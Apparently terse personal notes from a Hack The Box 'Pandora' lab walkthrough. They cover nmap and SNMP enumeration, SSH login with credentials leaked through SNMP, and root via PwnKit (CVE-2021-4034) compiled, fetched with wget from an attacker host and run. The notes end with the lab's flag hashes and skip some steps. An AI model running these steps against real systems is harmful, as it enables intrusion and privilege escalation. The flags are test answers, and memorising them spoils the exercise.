


INFO::
IP:10.10.11.136
OS: Linux

##**Enumeration::**## see 
nmap -A -T4 <ip>::
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landin
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

-sU::
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
Service Info: Host: pandora

dirb http://pandora.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt ::
+ /assets/, /index.html, /server-status:: no permissions

`snmp-check 10.10.11.136 > pandora.snmp.txt`::
839 runnable sh /bin/sh -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'


##**SSH**##
daniel:HotelBabylon23
home/matt/user.txt :: no permissions

cronjob:: looks promising
17 * * * *   root  cd / && run-parts --report /etc/cron.hourly
/etc/cron.d/e2scrub_all

##**scripts in dir::**##
les.sh::
[+] [CVE-2021-4034] PwnKit Hmmmmm
[+] [CVE-2021-3156] sudo Baron Samedit
[+] [CVE-2021-3156] sudo Baron Samedit 2
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

./chisel server/client
https://github.com/jpillora/chisel

##**User && root**##
[pwnkit.c](https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.c)
```
/opt/transfers:$ gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
python3 -m http.server 8888
victim /tmp: wget http:<attack-ip>/pwnkit pwnkit
chmod +x pwnkit
./pwnkit
whoami: root see 
```

home/matt/user.txt: 69940d7dca02b9c2700460bcf337ec28
/root/root.txt: cd7e46b9980875b196543e8dd0566a5b


